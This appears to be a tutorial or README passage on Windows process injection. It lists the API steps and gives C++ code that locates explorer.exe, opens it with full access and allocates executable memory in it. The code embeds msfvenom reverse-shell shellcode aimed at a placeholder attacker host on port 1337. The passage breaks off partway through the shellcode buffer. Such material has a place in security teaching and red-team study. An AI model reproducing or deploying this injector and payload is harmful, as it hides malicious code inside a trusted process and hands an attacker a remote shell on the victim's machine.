 - CreateToolhelp32Snapshot - Find the Process ID of Explorer.exe automatically
- OpenProcess - Create a handle to the remote process 
- VirtualAllocEx - Allocates a region of memory for our shellcode to live in (in a remote process)
- WriteProcessMemory  - Write our shellcode to the remote process
- CreateRemoteThread - Spawn a shell in the remote process

```c++
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>

using namespace std;

HANDLE GetProcesHandleName() {
    HANDLE ProcessHandle;


    PROCESSENTRY32 procEntry;
    procEntry.dwSize = sizeof(PROCESSENTRY32);

    HANDLE allProcesses;
    allProcesses = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

    if (Process32First(allProcesses, &procEntry) == TRUE) {
        while (Process32Next(allProcesses, &procEntry) == TRUE) {
            wchar_t newtargetProcName[1024] = L"explorer.exe";

            if (wcscmp(procEntry.szExeFile, newtargetProcName) == 0) {
                cout << "Process ID Found! PID: " << procEntry.th32ProcessID << "\n";
                ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procEntry.th32ProcessID);
                return ProcessHandle;
            }

        }

    }

}

int main()
{
    HANDLE hProcess;
    SIZE_T dwSize = 461;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
    hProcess = GetProcesHandleName();

	// msfvenom -p windows/x64/shell_reverse_tcp LHOST=xx.xx.xx.xx LPORT=1337 -f c
    unsigned char buf[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
        "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
        "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
        "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
        "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
        "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
        "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
        "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
        "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
        "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
```